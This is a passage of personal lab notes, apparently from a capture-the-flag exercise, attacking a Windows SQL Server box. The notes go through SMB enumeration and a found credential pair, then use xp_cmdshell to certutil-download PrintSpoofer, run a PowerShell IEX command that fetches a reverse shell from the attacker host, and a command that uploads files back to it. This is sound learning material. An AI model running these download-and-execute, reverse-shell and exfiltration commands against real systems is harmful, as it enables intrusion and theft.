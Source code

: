 ==Target ip== 10.129.95.187

# 1. Nmap: 
-> I always want to start here to see what ports are open and what services are running.

Lets start with a basic scan and see what we can find:
`sudo nmap -sV -sC 10.129.95.187 -oN nmap.basic`

When that scan is done I want to do a deeper scan and run that while I do other tasks.

`sudo nmap -p- -sV -sC --script=default,vuln,exploit -T4 -oN nmap.full 10.129.95.187`

==Result of basic scan==

![[Pasted image 20250518173247.png]]

-> ==Thinking==: Ok there is a lot here
1. It's obviously a Windows machine
2. SMB is running (something we can look into)
3. 2017 SQL Server
4. httpd 2.0 running. I don't know what SSDP/UPnP is, but we can research it.

# Let's try enum4linux
`enum4linux -a 10.129.95.187` -> does **all** simple enumeration

==findings==:  

[+] Server 10.129.95.187 allows sessions using username '', password '' <- Anonymous sessions over SMB

Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none <- Vaild usernames

# Try to connect to an smbshare without creds
`smbclient -L \\10.129.95.187\\ -N`

==Findings==: 
1. This lists out a non default share called "backups", let's check that out. <- We do not have access to ADMIN$
	- `smbclient //10.129.95.187/backups -N`
	- This shows a file that we can get.
![[Pasted image 20250518174844.png]]

==Very small, sorry== There is a username and password in this file!
And This is the file it appears to be XML. I am not totally sure what to do with that but I know XXE is a think, time for some research. 

ID = ARCHETYPE\sql_svc
Password = M3g4c0rp123

==What this file is==: this is **XML**, specifically a **DTS (Data Transformation Services) configuration file** used by SQL Server Integration Services (SSIS).

# Going to 10.129.95.187:5985
Gives a 404. I am not sure why, maybe we can check on this later.

### The creds work for SMB, but not for the admin share.

# Lets use impacket `mssqlclient.py` to try the creds on the sql server:

Impacket location on my machine: `/usr/share/doc/python3-impacket/examples/`

==Command== 
`python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.129.95.187 -windows-auth

*Login with password*

Tried these commands: 
"
SELECT SYSTEM_USER;
EXEC xp_cmdshell 'whoami';
"
But xp_cmdshell is not enabled. ==But we can enable xp cmdshell because we have privs!==

==Listing privileges==
![[Pasted image 20250518181401.png]]

==Limited privileges for Sql_svc. It is database admin but not OS-level admin==  What we need to do is upload a tool that can check for privilege escalation.

BUT -> SeImpersonatePrivilege allows for token impersonation, so we can try to upload a tool and take advantage of that.

**What is token impersonation?**: A technique where a lower-privileged user **impersonates a higher-privileged user’s security token** to perform actions they normally wouldn't be allowed to — like becoming `SYSTEM`.

### I need to download printspoofer and cross-compile it with mingw-w64

**Connect to the smbshare:** `smbclient //10.129.95.187/backups -U 'ARCHETYPE\sql_svc'`

==I cannot upload printspoofer on there, I need to find another way==

==Idea==: Maybe I can host the file on a python server and reach out with the database?

1. `python -m http.server 80` <- in the printspoofer directory
2. What is my ip? `ip a` -> look for tun0 (10.10.16.54)
3. *Log in to sql server*
4. `EXEC xp_cmdshell 'certutil -urlcache -split -f http://10.10.16.54/PrintSpoofer.exe C:\Users\Public\PrintSpoofer.exe';` 
     <- Livin off the land!
 5. Verify its location `EXEC xp_cmdshell 'dir C:\Users\Public\PrintSpoofer.exe`
 6. Run it `EXEC xp_cmdshell 'C:\Users\Public\PrintSpoofer.exe -i -c cmd.exe';` ==The command did not work==
![[Pasted image 20250518220744.png]]

-> What now? 
	1. Maybe the print service is not running? or
	2. The machine is patched, we'll have to find another way (==I think getting winpeas on the machine and running it would be good!==)
	3. Got a reverse shell from here => https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3#:~:text=Got%20stderr%20working%20with%20this%20modification%3A
	4. Setup a Python server and ran this command to fetch the reverse shell: `EXEC xp_cmdshell "powershell -Command IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.54/revshell2.ps1')";`
	5. Run winpeas
	6. ==The user flag is in the sql_svc Desktop==

# How to upload a file from the victim machine to the attacker: 
*on the victim machine with python server on the attacker machine*
`powershell -Command "(New-Object Net.WebClient).UploadFile('http://10.10.16.54/upload', 'C:\Users\Public\winpeas_output.txt')"`

